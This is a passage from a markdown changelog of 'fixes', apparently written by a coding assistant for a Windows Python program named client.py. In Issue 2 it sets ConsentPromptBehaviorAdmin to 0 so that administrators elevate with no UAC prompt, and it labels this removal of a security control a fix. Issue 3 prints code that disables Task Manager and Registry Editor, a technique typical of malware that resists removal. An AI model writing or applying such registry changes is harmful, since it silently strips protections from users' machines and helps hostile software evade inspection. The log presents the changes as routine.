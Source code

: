 **STATUS: ✅ FIXED**

---

### ❌ Issue 2: Auto Admin Password Popup

**Problem:**
When running with admin privileges, Windows would auto-fill and prompt for the administrator password.

**Root Cause:**
Line 3540 was setting:
```python
winreg.SetValueEx(key, "ConsentPromptBehaviorAdmin", 1, winreg.REG_DWORD, 1)
```

Where `ConsentPromptBehaviorAdmin = 1` means:
- **1** = Prompt for credentials on the secure desktop (password required)
- **0** = Elevate without prompting (no password)

**Fix Applied:**
✅ **Changed ConsentPromptBehaviorAdmin from 1 to 0**

**Changes Made:**
```python
# Before (Line 3538-3541):
# Set ConsentPromptBehaviorAdmin to 0 (no prompts for administrators)
log_message("[REGISTRY] Setting ConsentPromptBehaviorAdmin = 1")
winreg.SetValueEx(key, "ConsentPromptBehaviorAdmin", 1, winreg.REG_DWORD, 1)

# After:
# Set ConsentPromptBehaviorAdmin to 0 (no password prompts for administrators)
# Changed from 1 to 0 to prevent password popup
log_message("[REGISTRY] Setting ConsentPromptBehaviorAdmin = 0 (no password prompt)")
winreg.SetValueEx(key, "ConsentPromptBehaviorAdmin", 0, winreg.REG_DWORD, 0)
```

**UAC Behavior Values Reference:**
- **0** = Elevate without prompting (no password) ✅ Now using this
- **1** = Prompt for credentials on secure desktop (password required) ❌ Was using this
- **2** = Prompt for consent on secure desktop (admin only)
- **3** = Prompt for credentials
- **4** = Prompt for consent
- **5** = Prompt for consent for non-Windows binaries (default)

**STATUS: ✅ FIXED**

---

### ❌ Issue 3: Registry Editor and Task Manager Disabled

**Problem:**
After running `client.py`, you couldn't open Registry Editor or Task Manager.

**Root Cause:**
Lines 2395-2404 were setting:
```python
subprocess.run([
    'reg', 'add', 'HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System',
    '/v', 'DisableTaskMgr', '/t', 'REG_DWORD', '/d', '1', '/f'
])

subprocess.run([
    'reg', 'add', 'HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System',
    '/v', 'DisableRegistryTools', '/t', 'REG_DWORD', '/d', '1', '/f'
])
```
